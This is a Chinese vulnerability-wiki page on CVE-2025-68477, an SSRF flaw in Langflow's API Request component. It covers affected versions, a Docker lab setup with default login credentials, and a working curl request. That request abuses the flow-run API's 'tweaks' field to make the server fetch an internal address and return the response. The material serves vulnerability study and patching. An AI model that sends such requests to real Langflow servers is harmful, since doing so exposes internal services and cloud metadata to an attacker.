




# Langflow 服务器端请求伪造漏洞 CVE-2025-68477

<!-- vulwiki-editorial:start -->
## 校订与适用边界

示例的 HTTPS 页面与 HTTP API 调用没有证明同一环境已启用 TLS。固定工作流 ID 和容器 IP 是实验值，需与自有部署一致；不由示例 API key 推定匿名入口。

- 适用前提：有效 API key、可操作的工作流与其 FLOW_ID、工作流网络可达性；容器地址和协议取决于自有环境

### 本次正文校订

- 按实际内容修正 2 处代码围栏语言标记，保留其中方法与请求内容。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- 页面入口写https而调用示例http，环境是否启TLS未说明
- 固定FLOW_ID、示例API key和容器IP未充分参数化说明
- 末尾仅升级最新版本，缺明确修复版本
- API key和可操作工作流权限应结构化为利用前提
- 指向上游环境但未固定commit；应用版本字符串与环境名混合

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

## 漏洞描述

Langflow 的 API Request 组件在接收用户输入（来自工作流配置或运行时参数）的 URL 后，仅进行格式校验与协议标准化，而未对目标地址实施任何网络边界检查（如阻止对本地回环地址 127.0.0.1、私有 IP 段 10.0.0.0/8、172.16.0.0/12、192.168.0.0/16 或云元数据地址 169.254.169.254 的访问）。由于执行工作流的接口仅需有效的 API 密钥即可调用，因此攻击者可通过构造包含恶意 URL 的工作流参数，使服务器端的 httpx 客户端代理其发起请求，并将完整的响应内容（包括响应体）返回给攻击者，从而实现非盲的服务器端请求伪造，导致信息泄露。

参考链接：

- https://github.com/advisories/GHSA-5993-7p27-66g5

## 漏洞影响

```
Langflow < 1.7.1
```

## 环境搭建

参考 [环境配置](https://github.com/Threekiii/Awesome-POC/tree/master/base/langflow/1.6.9-ssrf) ，启动一个 Langflow 1.6.9-ssrf 服务：

```shell
docker-compose up -d
```

服务启动后，访问 `https://your-ip:7860` 即可查看到 Langflow 主页，通过账号密码 `administrator/Passw0rd1@3` 登录后台。




## 漏洞复现

漏洞复现的目标是通过 Langflow 读取内部接口 `http://172.18.0.3:8000/internal`，触发 SSRF。我们定义一个 Docker 网络 `ssrf-net`：

- Langflow 容器启动后，ip 为 `172.18.0.2`；
- internal-api 容器启动后，ip 为 `172.18.0.3`，不对外暴露，仅内部可访问接口 `http://172.18.0.3:8000/internal`。

在 Langflow 流程中添加一个 API 请求节点，并将 URL 设置为内部服务 ( `http://172.18.0.3:8000/internal` )：




新增一个 API Key：




通过 API Key 调用 `/api/v1/run/advanced/<FLOW_ID>` 来执行 SSRF 攻击，成功访问内部服务：

```shell
curl -s -X POST 'http://localhost:7860/api/v1/run/advanced/af515f8c-9324-465e-b8d1-df47633a5eda' \
  -H 'Content-Type: application/json' \
  -H 'x-api-key: sk-2VQ_XsHPY2KIpXxGBmnNYFbANjgs0yTL6DV0TIWyjn4' \
  --data-raw '{
    "inputs":[
      {
        "components":["Chat Input"],
        "input_value":"test"
      }
    ],
    "outputs":["Chat Output"],
    "tweaks":{
      "API Request":{
        "url_input":"http://172.18.0.3:8000/internal",
        "include_httpx_metadata":false
      }
    },
    "stream":false
  }' | jq -r '.outputs[0].outputs[0].results.message.text | sub("^```json\\n"; "") | sub("\\n```$"; "") | fromjson | .result'
```




## 漏洞修复

升级至最新版本。


---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
